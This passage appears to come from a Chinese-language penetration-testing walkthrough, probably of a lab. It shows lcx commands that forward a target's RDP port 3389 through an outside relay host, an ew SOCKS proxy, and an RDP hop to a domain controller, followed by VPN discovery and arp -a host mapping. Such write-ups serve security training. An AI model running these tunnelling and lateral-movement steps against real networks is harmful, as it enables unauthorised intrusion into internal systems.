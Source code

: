 ![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOtxeC8fpjCy7CQad7TfLOGZia4GXmBtCsqaLTSOd0eEOhicYgZxuvFMzA/640?wx_fmt=png)

**5.29 Lcx 转发 3389 隧道连接**

```
lcx.exe -listen 2333 5678
lcx.exe -slave  61.100.100.129 2333 10.10.2.129 3389
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOPl0IibzduzmZfiakYN9USVuUZBjlTibmUp6VVYkRznMkyVDwsjdWNy3ww/640?wx_fmt=png)

转发成功但是协议不对。

**5.30 Lcx 配合 ew 穿透内网**

上面出现这种错误是因为版本过低导致的。

使用 ew 代理在 03server3 设置代理。

ew_for_Win -s ssocksd -l 7788

使用 lcx 继续转发

```
lcx.exe -listen 2333 5678
lcx.exe -slave  61.100.100.129 2333 10.10.2.129 3389
```

在 12server4 服务器上连接 03server3 的远程终端即可连接到内网的广州 0 域控 12dc2

在隧道里执行 mstsc.exe192.168.22.132:5678

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOVAwVF31oAKn8W6HfINF4Iia2U3wyGevnQj9Jz2RejInk6VNq09T5F4g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOdibN7Yp1ZqTvTibEaRA6a5fKUBpBh8uCjLIfMQdwTeSyaAFoQciclSLFg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOMciam4gVNhfevia3XuCOh6eD6UZWDK7VWYQs7L5zBzRry4ElT1tYMPGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOv6ROvUqDu9bntECMAYEGuZ9cSaJTpQKgspiazeqd8EZRmxtCBnQibCwg/640?wx_fmt=png)

**5.31 登录 08server1 10.10.2.144**

本地管理员已经登录成功

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOp334RJDo9EZn0yJ1FRtNuibfKpyWIoG1uq3VulU3UnejIpCcEBunc0w/640?wx_fmt=png)

**5.32 横向渗透第四层网络**

在这台服务器上发现 vpn.txt 也存在 vpn 连接

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOLjymCg5x7tlAKicuibOH9x9AZATrRvMOllLcCoNlgPCl3Xhlm6riaHcwA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOFCUmqLE8ZfCK8KfXq1vmCJmqEYJa3uB2RjpEGdkzpjfibu6D7w4srVg/640?wx_fmt=png)

10.10.2.134 是 vpn 服务器

arp -a 发现主机。
